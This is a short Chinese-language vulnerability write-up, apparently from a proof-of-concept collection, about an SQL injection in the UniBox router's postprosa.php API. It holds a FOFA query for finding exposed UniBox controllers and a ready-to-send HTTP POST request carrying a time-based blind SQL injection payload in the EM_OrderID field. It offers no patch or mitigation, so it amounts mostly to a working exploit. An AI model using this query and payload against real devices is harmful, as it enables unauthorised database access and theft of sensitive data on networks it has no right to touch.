 # unibox路由器postprosa接口存在SQL注入

# 漏洞描述
UniBox 是一款一体化网络/热点控制器，可以部署为管理公共 WiFi 热点的热点网关，也可以部署为办公室和企业的网络控制器。unibox路由器postprosa存在SQL注入漏洞，攻击者可以根据该漏洞获取数据库权限，查看大量敏感信息。

# fofa
```
body="Unibox" && body="Controller"
```

## poc

```javascript
POST /api/postprosa.php HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Cookie: http304ok=0; PHPSESSID=pvpehubud7epklbme9m4s69b0q;
Connection: close

EM_OrderID=1'+AND+(SELECT+3676+FROM+(SELECT(SLEEP(5)))sdgB)+AND+'rBTA'%3d'rBTA
```

